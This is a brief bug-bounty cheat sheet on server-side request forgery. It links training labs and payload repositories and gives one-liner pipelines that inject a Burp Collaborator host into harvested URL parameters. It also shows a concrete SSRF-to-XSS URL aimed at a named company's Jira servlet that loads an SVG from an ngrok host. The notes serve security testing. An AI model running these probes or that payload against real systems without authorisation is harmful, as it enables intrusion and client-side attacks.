 # SSRF

```
In-band  
    https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter
Blind SSRF 
    https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection
```

```
Blind SSRF in Headers + Autorepeater
```

### bind SSRF to XSS

```
SSRF Example + SSRF -> XSS 
https://jira.intellectdesign.com/plugins/servlet/oauth/users/icon-uri?consumerUri=https://bbc3d4d64a12.ngrok.io/exp.svg
```

### Automation

```
echo target | waybackurls | gf ssrf | httpx | qsreplace burpcollaborator |  xargs -I{} http GET {}
echo target | waybackurls | gf ssrf | qsreplace burpcollaborator |  httpx 
gau -subs target | deduplicate | gf ssrf | qsreplace burpcollaborator |  httpx 
```

### Blind SSRF in File Converters

{% embed url="https://pdfcrowd.com/#convert_by_input" %}

### SSRF Payloads

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery
https://github.com/swisskyrepo/SSRFmap
```
